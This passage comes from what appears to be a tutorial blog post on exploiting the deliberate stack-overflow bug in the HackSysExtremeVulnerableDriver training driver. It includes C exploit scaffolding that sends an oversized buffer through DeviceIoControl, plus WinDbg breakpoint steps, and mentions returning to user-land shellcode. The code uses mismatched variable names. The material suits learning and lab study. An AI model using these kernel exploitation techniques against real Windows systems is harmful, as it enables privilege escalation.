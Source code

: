 The code leaves no room for ambiguity about the vulnerability: we can overflow
the kernel stack by passing in a buffer of length > 0x800 bytes. Since the
buffer is read directly from user-land
([`ProbeForRead`](https://msdn.microsoft.com/en-us/library/windows/hardware/ff559876(v=vs.85).aspx))
we have full control over it, which simplifies greatly the exploitation.

So the exploit code looks clearer:


```c

#define IOCTL_HEVD_STACK_OVERFLOW 0x222003


HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", ...);

LPVOID lpInBuffer = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
DWORD nInBufferSize = 0x800 + 0x50;
ZeroMemory(lpInBuffer, 0x1000);
RtlFillMemory(lpInBuffer, 0x1000, 'A'); // for now, let's just populate the stack with 'A'


BOOL bResult = DeviceIoControl(hDevice, IOCTL_HEVD_STACK_OVERFLOW,
                               lpBufferIn, dwBufferInLength, ...);
```

And move on to the dynamic analysis...

# Dynamic analysis

Assuming [SMEP](https://en.wikipedia.org/wiki/Supervisor_Mode_Access_Prevention)
is not enabled, once we control the program counter, we can
simply return to an known executable location in user-land, location that'll
hold
[the shellcode we created in the last post](/2017/08/14/a-primer-to-windows-x64-shellcoding). But
to know the state of the stack after the overflow but before exiting the function, it'd
be nice to have WinDbg break at the `ret` instruction of
`TriggerStackOverflow`. Since ASLR is enabled, we can't just break at a fixed
address and having to compute the address would be tedious, but fortunately,
WinDbg, in its all awesomeness,
provides the command "Break Unresolved" (`bu`) which provides a clean way to circumvent this issue:

```txt
kd> uf HEVD!TriggerStackOverflow
[...]
  101 fffff801`8063e707 5f              pop     rdi
  101 fffff801`8063e708 c3              ret

kd> ? fffff801`8063e708 - HEVD!TriggerStackOverflow
Evaluate expression: 200 = 00000000`000000c8

kd> bu HEVD!TriggerStackOverflow+c8
```
